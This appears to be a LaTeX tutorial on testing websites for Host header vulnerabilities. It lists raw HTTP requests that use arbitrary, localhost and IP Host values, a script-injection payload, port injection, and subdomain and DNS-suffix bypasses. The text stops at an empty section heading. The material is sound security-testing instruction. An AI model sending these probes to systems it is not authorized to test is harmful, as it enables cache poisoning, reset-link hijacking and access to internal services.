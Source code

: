 \documentclass[12pt,a4paper]{article}
\begin{document}
\section{How to Identify and Test for Host Header Vulnerabilities}

\subsection{Testing Methodology}

\subsubsection{1. Supply Arbitrary Host Header}

\begin{lstlisting}[caption=Basic Host Tests]
# Test 1: Arbitrary domain
GET / HTTP/1.1
Host: arbitrary.com

# Test 2: Different case
GET / HTTP/1.1
Host: VULNERABLE.COM

# Test 3: Invalid characters
GET / HTTP/1.1
Host: vulnerable.com<script>alert(1)</script>

# Test 4: Port manipulation
GET / HTTP/1.1
Host: vulnerable.com:9999

# Test 5: Localhost
GET / HTTP/1.1
Host: localhost

# Test 6: IP address
GET / HTTP/1.1
Host: 127.0.0.1
\end{lstlisting}

\subsubsection{2. Check for Flawed Validation}

\begin{lstlisting}[caption=Validation Bypass Tests]
# Port injection (if domain validated only)
GET / HTTP/1.1
Host: vulnerable.com:bad-stuff-here

# Subdomain tricks
GET / HTTP/1.1
Host: notvulnerable-website.com
GET / HTTP/1.1
Host: hacked-subdomain.vulnerable.com

# DNS suffix matching
GET / HTTP/1.1
Host: evil.vulnerable-website.com
\end{lstlisting}

\subsubsection{3. Multiple Host Headers}
\end{document}
